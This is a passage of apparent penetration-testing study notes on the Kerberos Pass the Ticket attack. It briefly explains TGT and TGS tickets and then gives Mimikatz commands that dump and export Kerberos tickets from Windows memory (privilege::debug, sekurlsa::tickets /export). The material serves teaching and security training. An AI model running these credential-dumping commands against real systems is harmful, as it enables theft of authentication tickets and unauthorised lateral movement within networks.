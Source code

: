 In this attack, we use a stolen Kerberos ticket to move laterally instead of an NTLM password hash.
# Kerberos Protocol Refresher
- The Kerberos authentication system is ticket-based.
- The `TGT - Ticket Granting Ticket` is the first ticket obtained on a Kerberos system. The TGT permits the client to obtain additional Kerberos tickets or `TGS`.
- The `TGS - Ticket Granting Service` is requested by users who want to use a service. These tickets allow services to verify the user's identity.
# Pass the Ticket (PtT) Attack
We need a valid Kerberos ticket to perform a `Pass the Ticket (PtT)`. It can be:
- Service Ticket (TGS - Ticket Granting Service) to allow access to a particular resource.
- Ticket Granting Ticket (TGT), which we use to request service tickets to access any resource the user has privileges.
## Harvesting Kerberos Tickets from Windows
#### Mimikatz - Export Tickets
```cmd
mimikatz.exe
```
```cmd
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```
```cmd-session
dir *.kirbi
```



